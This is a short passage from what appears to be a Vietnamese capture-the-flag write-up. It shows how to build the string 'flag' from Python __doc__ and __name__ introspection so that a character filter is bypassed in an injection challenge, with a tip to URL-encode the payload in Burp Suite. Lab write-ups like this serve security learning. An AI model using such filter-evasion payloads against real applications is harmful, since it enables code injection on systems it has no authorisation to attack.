 Ta thấy có file flag trong working directory. 
Craft chữ flag
`[].__doc__[-[].clear.__name__.__len__()]` **: f**
`[].__doc__[[].pop.__name__.__len__()]` **: l**
`().__doc__[-[].__getitem__.__name__.__len__()]` **: a**
`{}.__new__.__doc__[-[].__init__.__name__.__len__()]` **: g**

![image](https://hackmd.io/_uploads/SycY6TgGA.png)

P/S: 
1. Nhớ URL-encode payload trước khi đưa vào Burp Suite nếu không sẽ bị 500 Internal Server Error. 
2. Craft dấu / sẽ nhọc hơn rất là nhiều đấy.